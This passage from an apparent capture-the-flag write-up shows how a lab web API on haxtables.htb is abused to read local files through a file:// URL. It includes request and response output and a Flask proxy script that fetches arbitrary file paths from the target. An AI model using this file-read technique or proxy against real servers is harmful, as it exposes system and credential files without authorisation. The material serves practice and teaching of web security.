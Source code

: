 #### Local File Read

Given that the site is parsing URLs, I'll try the `file://`
[scheme](https://blog.hubspot.com/marketing/parts-url) to see if it can
read files from disk. It can!



    >>> json_data = {"action": "str2hex", "file_url": "file:///etc/hostname"}
    >>> resp = requests.post('http://api.haxtables.htb/v3/tools/string/index.php', json=json_data)
    >>> resp.json()
    {'data': '656e636f64696e670a'}



That decodes to "encoding", which makes sense as the hostname:



    >>> bytes.fromhex("656e636f64696e670a").decode()
    'encoding\n'



#### Make Proxy

I'm going to make a Flask proxy to make reading from the file system
easy. I'll walk through that in [this
video](https://www.youtube.com/watch?v=f0m-3P7_bsU):


# ایک خرابی پیش آ گئی۔ {#ایک-خرابی-پیش-آ-گئی .message}

[اس ویڈیو کو www.youtube.com پر دیکھنے کی کوشش
کریں](https://www.youtube.com/watch?v=f0m-3P7_bsU){target="_blank"} یا
اگر آپ کے براؤزر میں JavaScript غیر فعال ہے تو اسے فعال کریں۔

The final script is
[here](https://gitlab.com/0xdf/ctfscripts/-/blob/master/htb-encoding/proxy.py):



    #!/usr/bin/env python3

    import requests
    from flask import Flask, Response


    app = Flask(__name__)

    @app.route('/<path:file>')
    def get_file(file):

        req_data = {"action": "str2hex", "file_url": f"file:///{file}"}
        resp = requests.post("http://api.haxtables.htb/v3/tools/string/index.php", json=req_data)
        return Response(bytes.fromhex(resp.json()['data']), content_type="application/octet-stream")


    if __name__ == "__main__":
        app.run(debug=True)

